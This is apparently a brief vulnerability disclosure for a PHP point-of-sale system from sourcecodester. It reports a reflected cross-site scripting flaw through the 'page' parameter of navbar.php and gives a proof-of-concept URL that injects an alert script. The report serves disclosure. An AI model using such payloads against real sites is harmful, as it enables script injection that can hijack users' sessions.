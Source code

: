 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：


![image](https://user-images.githubusercontent.com/30823782/220945279-7462e6ff-1da0-43ee-9b67-939c9d364e68.png)

exp

```
http://192.168.31.50/kruxton/navbar.php?page=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```
![image](https://user-images.githubusercontent.com/30823782/220945386-ef437201-6fc4-4fcf-ba71-3e99ed4ba41b.png)


